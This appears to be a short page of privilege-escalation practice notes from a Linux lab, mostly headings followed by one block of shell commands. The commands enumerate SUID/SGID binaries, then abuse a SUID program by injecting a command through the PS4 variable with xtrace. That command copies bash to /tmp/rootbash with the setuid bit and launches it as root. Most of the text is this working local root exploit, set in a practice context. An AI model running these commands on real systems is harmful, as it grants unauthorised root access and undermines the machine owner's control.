 # TEST SETUP/ENVIRONMENT FOR PRIVILEGE ESCALATION PRACTICE 

# MANUAL ENUMERATION 

# AUTOMATED ENUMERATION 

# MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 2

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

/tmp/rootbash -p

rm /tmp/rootbash

exit
```
